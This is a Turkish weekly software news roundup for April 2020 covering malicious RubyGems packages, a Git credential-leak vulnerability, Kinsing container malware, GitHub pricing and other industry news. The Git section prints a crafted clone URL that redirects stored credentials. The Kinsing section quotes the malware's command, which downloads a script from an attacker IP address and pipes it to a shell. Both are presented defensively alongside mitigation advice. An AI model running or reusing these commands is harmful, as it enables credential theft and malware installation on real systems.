

Yazılım Gündemi - 2020/15
13-19 Nisan 2020
İçindekiler
- 1. 725 adet zararlı Ruby kütüphanesi RubyGems üzerinden kaldırıldı
- 2. Zararlı URL ile şifre çalmaya yarayan Git açığı kapatılı
- 3. Konteynerleri tehdit eden yeni bir zararlı yazılım: Kinsing Malware
- 4. Bakan Varank: "Yazılım Okulları Açacağız"
- 5. GitHub takımlar için de ücretsiz oldu
- 6. Google Play Store Policy güncellendi: Arka planda konum servisi kullanan uygulamalar özel izin almak zorunda
- 7. JetBrains birçok IDE ve aracı için 2020.1 sürümünü yayınladı
- 8. "Açık Seminer" etkinlikleri devam ediyor
- 9. Diğer Haberler
- 10. Lisans

< Önceki Gündem | 13-19 Nisan 2020 | Sonraki Gündem >
1 725 adet zararlı Ruby kütüphanesi RubyGems üzerinden kaldırıldı
Büyük ve orta ölçekli uygulamaları üçüncü parti kütüphane kullanmadan geliştirmenin pek mümkün olmadığı günümüz yazılım ekosisteminde, kötü amaçlı kişiler artık sadece son kullanıcıları değil, biz geliştiricileri de hedef alıyorlar. ReversingLabs isimli güvenlik firmasının bu hafta yayınladığı bir blog yazısı 2020 Şubat ayında yaşanmış ve çözümlenmiş bir olaya ışık tutuyor.
ReversingLabs firması Şubat ayında 725 adet yeni RubyGems (Ruby programlama dilinin üçüncü parti kütüphaneleri kayıt etmek için kullandığı sistem) kaydı tespit etmişler ve incelediklerinde de bu kütüphanelerin kötü amaçlı kod satırları içerdiklerini keşfetmişler. "JimCarrey" ve "PeterGibbons" şeklinde takma isimlerle RubyGems üzerinden paylaşılmış, isim oyunu içeren bu kütüphaneler güvenlik firmasının tespit etmesi ve RubyGems'e bildirmesi üzerine sistemden silindiler fakat silinene kadar geçen süre boyunca binlerce kez indirildikleri de gözden kaçmıyor. RubyGems üzerinden silinen bu kütüphanelerin tam listesi için buraya tıklayabilirsiniz.
Kötü amaçlı kişiler yine isim oyunları yaparak aradan sıvışmaya çalışmışlar. Mesela "atlas_client" isimli bir kütüphanenin sahtesini "atlas-client" ismiyle yayınlamışlar. Peki ne yapıyor bu kötü amaçlı kütüphaneler?
Şekil 2: Zararlı yazılımın sisteme nasıl eklendiğini gösteren akış şeması. Kaynak: ReversingLabs
Bu kütüphanelerin yaptığı şey Windows sistemlere bilgisayarın açılmasıyla birlikte çalışacak bir Clipboard Hijack betiği kuruyor. Yani kes, kopyala, yapıştır gibi işlemlerin yapılabilmesini sağlayan "pano" sistemini manipüle ediyor. Bilgisayarınızın arkaplanında çalışan bu Visual Basic betiği sonsuz döngüye girmiş şekilde sürekli panoya kopyaladığınız metinleri kontrol ediyor, eğer bunun bir BitCoin cüzdanı adresi olduğunu anlarsa, o metini başka bir BitCoin cüzdanı adresi ile değiştiriyor. Yani kısaca sizin başkasına göndereceğiniz parayı kendisine aktarmak istiyor.
Yine güvenlik firmasının açıklamasına göre saldırganın ilgili BitCoin cüzdanına hiçbir para transferi gerçekleşmemiş. Zaten düşük bir olasılıktı. Yazdığın sahte kütüphaneyi Windows kullanan bir yazılım geliştirici indirecek, o yazılım geliştirici BitCoin'i aktif olarak kullanıyor olacak ve bir para tranferi yapacağı zaman adamın panosunu manipüle edip, parayı kendine çekeceksin. Ohoo… Ölme eşeğim ölme. İlginç bir kafa gerçekten. Saldırgan amacına ulaşamadan gönderdiği sahte kütüphaneler silinmiş ama eğer indirilmişse sizin bilgisayarınızdan silinmemiştir. Ruby dili üzerinde aktif geliştirme yapıyor ve Windows kullanıyorsanız sisteminizle birlikte başlayan uygulamaları bir kontrol etmenizde fayda var.
2 Zararlı URL ile şifre çalmaya yarayan Git açığı kapatılı
Google'ın Project Zero isimli güvenlik takımı tarafından ortaya çıkarılan ve raporlanan güvenlik açığı bu hafta içerisinde yayınlanan Git sürümleriyle birlikte kapatıldı. CVE numarası: CVE-2020-5260
Git bazı kimlik doğrulama işlemleri için işletim sistemi tarafından sağlanmış harici yardımcı araçları kullanıyor. Fakat "git clone" gibi komutlardan girilen zararlı URL'ler, bu harici kimlik doğrulama araçlarında hata yol açıp, sistemde kayıtlı kimlik bilgilerini (kullanıcı adı, şifre, ssh anahtarı vb.) başka bir sunucuya yönlendirebiliyor. Örnek vermek gerekirse:
git clone 'https://example.com?%0ahost=github.com'
şeklinde çalıştırılan bir komut github.com için depolanmış kimlik
bilgilerini example.com sitesine yönlendiriyor. Elbette benim gibi siz de
ilk bakışta "böyle bariz şüpheli bir komutu kim, niye çalıştırsın?"
diyebilirsiniz fakat bu bağlantılar her zaman böyle açık şekilde olmuyor.
Örneğin, bir depo içerisine başka bir depoyu eklemeye yarayan Git'in Submodule
sistemi böyle bir zaafiyete kurban gidebilir. Siz depoyu normal bir şekilde
sunucudan bilgisayarına çekebilirsiniz fakat Git, Submodule olarak eklenen
diğer depoları çekerken böyle bir bağlantı ile karşılaşırsa haberiniz
olmayabilir.
Neyse ki bu güvenlik sorunu halka açık olarak paylaşılmadan önce kapatılmış. Git versiyonlarınızı güncelleyerek olası bir zararın önüne geçmiş olursunuz. Eğer Git versiyonunuzu yükseltebilecek durumda değilseniz aşağıdaki şeyleri yapmanızda fayda var:
Bu komutları çalıştırarak Git'in harici kimlik doğrulama yardımcılarını kullanmasını önleyebilirsiniz:
$ git config --unset credential.helper $ git config --global --unset credential.helper $ git config --system --unset credential.helper
- İndirdiğiniz depolar içerisindeki
.gitmodulesdosyasını inceleyebilir ve şüpheli bir durum görmezseniz işlemlerinize devam edebilirsiniz.
Güvenlik açığı hakkında daha detaylı bilgi edinmek isterseniz konu başlığına eklediğim bağlantıya ya da Google'ın Project Zero takımının şu yazısına göz atabilirsiniz.
3 Konteynerleri tehdit eden yeni bir zararlı yazılım: Kinsing Malware
Linux çekirdeğinin içerisinde olan fakat Docker ile birlikte popülerliği artmış olan konteyner yapısı artık günümüzde birçok şirket ve kurum tarafından kullanılıyor. Yeni teknolojiler biz geliştiricilerin olduğu gibi kötü amaçlı kişilerin de ilgisini çekiyor. Aqua isimli konteyner güvenliği üzerine çalışan firmanın geçtiğimiz hafta blogunda yayınladığı yazı ile konteyner içerisinde kripta para madenciliği yapan yeni bir malware ortaya çıktı. İsmine "Kinsing" demişler.
Bu malware yazılımının sisteminize sızabilmesi için bir kriter var. O da yanlış ayarlanmış ve açık bırakılmış Docker Daemon API'sinin portu. Kötü amaçlı kişiler bu açık portu otomatik olarak bulan ve kendi amacı için kullanan exploit geliştirmişler. Bu exploit'in yaptığı ilk iş yeni bir Ubuntu konteyner'i oluşturmak ve içerisinde aşağıdaki komutu çalıştırmak:
/bin/bash -c apt-get update && apt-get install -y wget cron;service cron start; wget -q -O - 142.44.191.122/d.sh | sh;tail -f /dev/null
GNU/Linux sistemlere aşina olmayanlar için açıklamak gerekirse bu komutun yaptığı iş:
apt-get update: Tüm paket depolarını güncelliyor.apt-get install -y wget cron: wget ve cron araçlarını kuruyor.wget -q -O - 142.44.191.122/d.sh | sh: wget'i kullanarak asıl zararlı yazılımı indiriyor ve çalıştırıyor.tail -f /dev/null: /dev/null dosyasını sürekli yazdırarak konteyner'i ayakta tutmaya çalışıyor.
Asıl zararlı yazılım ise bazı güvenlik duvarlarını devre dışı bırakarak kendini genişletmeye ve sistem kaynaklarınızı kullanarak kripto para madenciliği yapıyor.
Şekil 3: Zararlı yazılımın tüm süreçlerini gösteren diyagram. Kaynak: Aqua
Eğer kişisel olarak ya da firmanızda Docker kullanıyorsanız gerekli kontrolleri yapmayı ihmal etmeyin. Zararlı yazılım hakkında daha detaylı bilgi ve önlemler için konu başlığına eklediğim bağlantıya tıklayabilirsiniz.
4 Bakan Varank: "Yazılım Okulları Açacağız"
Geçtiğimiz haftaki yazılım gündemi yazısını (bkz: Yazılım Gündemi - 2020/14) son anda güncelleyerek "Açık Seminer" etkinliğinin başlayacağını duyurmuştum. Etkinlik önümüzdeki haftalarda da devam edecek. Bu etkinliklerin ilk gününde Sanayi ve Teknoloji Bakanı Mustafa Varank da katılım gösterdi ve bazı açıklamalarda bulundu. Özetleyecek olursak:
- "Türkiye Açık Kaynak Platformunda 60'ı aşkın şirket, 50'den fazla üniversite, sektör temsilcisi STK ve topluluk üyesi binlerce yazılımcı bulunuyor. Burada sadece yazılım geliştirenler değil, yeni teknolojilerde yazılım ihtiyacı olan şirketler de bizim paydaşımız. Platform aracılığıyla ihtiyaç sahibiyle yazılım geliştiricileri bir araya getiriyoruz".
- Platformun gelecek 2 yıllık çalışma programı hazır.
- Bilişim Vadisi ve TÜBİTAK-TÜSSİDE ile birlikte yürütülen bu programa, İstanbul ve Doğu Marmara kalkınma ajanları 30 milyon liralık katkı sunacakmış.
- 2023 Sanayi ve Teknoloji Stratejisi kapsamında 500.000 yazılımcı ve yazılımda küresel ürünler geliştiren bir ülke olma hedefi var. Şu an ülkemizde 150.000'in üzerinde yazılım geliştirici varmış.
- İstanbul'da ve Bilişim Vadisi'nde Yazılım Okulları açılacakmış.
- "Seminer programının ardından, farklı yaş gruplarını ve yetkinlikleri hedefleyen eğitim programlarımız başlayacak. Eğitimleri başarıyla tamamlayan katılımcılara, dijital rozet vereceğiz"
Diğer birçok ülkenin de açık kaynak ve yazılımla ilgili doğrudan kurumlar kurduğu günümüz ekosisteminde bence doğru bir hareket. Ülke olarak bu akımı yakalayabilmiş olmak umut vaat ediyor. Umarım ilerleyen süreçlerde planlar hakkında daha detayları açıklamalar da gelir. Her ne kadar "Açık Kaynak"tan ziyade "Özgür Yazılım" kavramını daha çok destekliyor olsam da devletlerin "Açık Kaynak" tarafına yönelmesini de anlayabiliyorum.
Önümüzdeki haftalarda da devam edecek "Açık Seminer" etkinliklerini takip etmek için bu sayfayı ziyaret edebilirsiniz: https://www.acikseminer.com/
5 GitHub takımlar için de ücretsiz oldu
Geçtiğimiz yazılım gündemi yazılarının birinde GitHub'da kullanıcı olarak özel depo (private repository) açmanın ücretsiz olduğunu konuşmuştuk diye hatırlıyorum (hangi yazı olduğunu bulamadım :) ). Bu hafta ise GitHub yayınladığı blog yazısı ile birlikte artık takımlar içi de GitHub Free paketinin bulunduğunu açıkladı. Ayrıca GitHub Teams paketinin kullanıcı başına aylık $9 olan ücretini de $4 olarak güncelledi.
Ücretsiz paketle birlikte artık özel depoların temel tüm özelliklerine ücretsiz olarak erişebilecek firmalar. Ayrıca 500MB GitHub Packages ve 2.000 dakika GitHub Actions hizmetleri de ücretsiz pakete dahil. Ücretli olarak kullanmaya devam edecek ve yıllık olarak GitHub Teams satın almış firmalar ve organizasyonlar için de kalan ayların ücretleri de iade edilecek.
Şekil 4: Ücretli GitHub Teams paketinden ücretsiz pakete geçerken kaybedilen özellikler
Yukarıdaki görselde de görebileceğiniz gibi birçok faydalı özellik ücretsiz sürümde yok. Bu özelliklere ihtiyaç duyan firmalar ve kurumların geçiş yapacaklarını sanmıyorum ama "bunlar olmasa da olur" diyenler için iyi bir tasarruf.
6 Google Play Store Policy güncellendi: Arka planda konum servisi kullanan uygulamalar özel izin almak zorunda
Google'ın Android için uygulama ve içerik mağazası olan Play Store'da uygulama yayınlamak için uyulması gereken Policy dokümanı güncellendi. Artık kullanıcıya bir süreliğine ücretsiz sunulan daha sonra ücretli hale gelen uygulamalar detay vermek zorunda ve ondan da önemlisi artık uygulamanız arka planda konum servisini kullanmak istiyorsa Google'dan özel olarak izinli olması gerekiyor.
Şekil 5: Artık uygulamanız kullanıcıya soldaki gibi ücretsiz süreç hakkında detaylı bilgiler vermek zorunda, sağdaki kullanıma izin verilmiyor.
Eğer kullanıcılar yine de dikkatsiz davranıp bu açıklamaları görmezden gelirse diye Google önlemini almış. Ücretsiz kullanım süreci bitmeden önce kullanıcıya e-posta atarak durum hakkında bilgi vermek zorundasınız. Ayrıca aktif aboneliği olan fakat uygulamayı silmiş kullanıcılar da bildirimlerle uyarılacakmış, "uygulamayı silmek abonelikten çıkmak anlamına gelmiyor" şeklinde. Bence gayet yerinde uygulamalar.
Diğer bir konumuz ise arka planda konum bilgilerini kullanan uygulamaları ilgilendiriyor. Artık uygulamanız arka planda konum bilgilerine de erişmek istiyorsa özel olarak Google'a başvurmanız ve beyaz listeye (whitelist) girebilmek için Google'ı neden arka planda konum bilgisine ihtiyaç duyduğunuz konusunda ikna etmeniz gerekiyor. Reklam gösterme ve analiz için kullanımlar kabul edilmeyecekmiş. Yani Google diyor ki: "Benim dışımda kimse kullanıcıların konum bilgileriyle reklam gösteremez ve analiz yapamaz". Pek şaşırdığımı söyleyemem açıkcası.
Arka planda konum bilgisini alıp bunu kötüye kullanan uygulamaların olduğu bir gerçek elbette fakat bu sorunun önüne geçmek için uydurulan çözüm bana biraz sakıncalı geldi. Eğer Google'ın kendi çözümü olan bir alanda hizmet veriyorsak (yani bir nevi Google'a rakipsek), Google bizim uygulamamızı beyaz listeye eklemeyebilir. Nitekim reklam gösterme ve analiz için en başından kısıtlanmış zaten. Bu sürecin şeffaflığı nasıl sağlanacak? sorusunun sorulması önemli.
Bu konuda siz ne düşünüyorsunuz. Yorumlar bölümünde konuşalım.
Arka planda konum bilgisi kullanımı için daha detaylı bilgi için Google'ın hazırladığı bu sayfayı ziyaret edebilirsiniz.
7 JetBrains birçok IDE ve aracı için 2020.1 sürümünü yayınladı
JetBrains firmasının Nisan ayı itibariyle yayınladığı güncellemeler bu şekilde:
| IDE'ler | Araçlar |
|---|---|
| * PhpStorm 2020.1 | * ReSharper 2020.1 |
| * CLion 2020.1 | * EduTools 3.5 |
| * DataGrid 2020.1 | * ReSharper C++ 2020.1 |
| * IntelliJ IDEA 2020.1 | |
| * GoLand 2020.1 | |
| * PyCharm 2020.1 | |
| * RubyMine 2020.1 | |
| * WebStorm 2020.1 | |
| * Rider 2020.1 |
8 "Açık Seminer" etkinlikleri devam ediyor

9 Diğer Haberler
- Programlama Yarışması: Berk Bingöl Programming Contest
- npm ve GitHub birleşmesi tamamlandı. Alternatif (bkz: Yazılım Gündemi - 2020/11)
- Cloudflare Workers artık COBOL destekliyor.
- ProtonMail Bridge açık kaynak olarak yayınlandı. GitHub Deposu
- Google, Kotlin için gRPC kütüphanesini açık kaynak olarak yayınladı: grpc-kotlin.
- Microsoft, WSL2 (Windows Subsystem for Linux 2) sistemini Windows 10 version 2004 ile birlikte genel erişilebilir olacak.
- Rust 2019 anketi sonuçları yayınlandı.
- Ruby Concurrency Final Raporu yayınlandı.
- Dell BIOS saldırısı tespiti için yeni bir araç yayınladı.
- VueJS v3.0.0 Beta 2 sürümü yayınlandı.
- jQuery 3.5.0 sürümü yayınlandı.
- Microsoft C++ takımı, GSL 3.0.0 sürümünü yayınladı. GitHub Deposu
- NodeJS v13.13.0 sürümü yayınlandı.
- Zig programlama dilinin 0.6.0 sürümü yayınlandı.
- Lazarus 2.0.8 sürümü yayınlandı.
- D programlama dili takımından yeni araç duyurusu: DustMite.
- Gloo 1.3 sürümü yayınlandı.
- Earthly v0.1.0 sürümü yayınlandı.
- gbundle aracı tanıtıldı. GitHub Deposu
- Tide 0.7.0 sürümü çıktı.
- Logos 0.11.0 sürümü çıktı.
- Boa 0.7.0 sürümü çıktı.
- Blazorise 0.9 sürümü çıktı.
10 Lisans

Yazılım Gündemi - 2020/15 yazısı Eren Hatırnaz tarafından Creative Commons Atıf-GayriTicari-AynıLisanslaPaylaş 4.0 Uluslararası Lisansı (CC BY-NC-SA 4.0) ile lisanslanmıştır.